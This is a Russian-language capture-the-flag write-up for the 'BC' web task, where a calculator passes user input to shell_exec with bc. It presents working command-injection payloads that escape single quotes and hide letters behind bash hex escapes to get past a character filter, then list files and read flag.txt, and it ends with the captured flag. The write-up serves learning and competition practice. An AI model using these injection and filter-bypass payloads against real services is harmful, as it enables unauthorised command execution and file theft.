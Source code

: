 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
';ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
';ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как в vim

Я говорю ему прочитать все, что есть в первом попавшемся файле в директории и перенаправляю вывод в командную строку

Сделать так, что бы читались сразу все файлы в один вывод, пока не получилось

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

Дополнение:

Исходя из выше написанного я пришел к выводу, что можно было сделать так...

Получаем список файлов `';ls;'`
```
';$'\x6C\x73';'
```
```
Output:
bc.html
flag.txt
index.php
```
Исходя из того что `';cat flag.txt;'` не работает

Делаем так
```
';ex $'\x66\x6C\x61\x67\x2E\x74\x78\x74' +%$'\x70' -$'\x73\x63\x71'!;'
```

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
